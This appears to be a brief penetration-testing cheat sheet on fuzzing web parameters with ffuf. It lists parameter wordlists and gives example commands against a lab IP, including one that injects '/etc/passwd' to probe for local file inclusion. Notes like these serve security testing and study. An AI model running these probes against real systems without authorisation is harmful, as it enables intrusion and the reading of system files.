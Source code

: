 -- -
Tactics to use when you are trying to fuzz a parameter to an API endpoint or file or whatever.
### Wordlists
Some wordlists for you to try, in some cases you can use the same one as you would for directory fuzzing.
- `/usr/share/wordlists/dirb/common.txt` or `/seclists/Discovery/Web-Content/common.txt`
- `/seclists/Fuzzing/fuzz-bo0oM.txt`
- `/seclists/Discovery/Web-Content/burp-parameter-names.txt`
- [Arjun all default wordlists](https://github.com/s0md3v/Arjun/tree/master/arjun/db)
- [para-miner params](https://github.com/PortSwigger/param-miner/blob/master/resources/params)
- [nullenc0de's param.txt](https://wordlists.assetnote.io/)
- [Assetnote parameters_top_1m](https://wordlists.assetnote.io/) - this one is quite long
### Fuzzing
Remember that you can directly test for LFI here, and has popped up where the general fuzzing won't catch the parameter unless it has an LFI payload.
```bash
ffuf -u "http://192.168.189.80/console/file.php?FUZZ" -w ./params.txt -fs 0
ffuf -u "http://192.168.189.80/console/file.php?FUZZ=0" -w ./params.txt -fs 0
ffuf -u "http://192.168.189.80/console/file.php?FUZZ=readme" -w ./params.txt -fs 0

# LFI
ffuf -u "http://192.168.189.80/console/file.php?FUZZ=/etc/passwd" -w ./params.txt -fs 0
```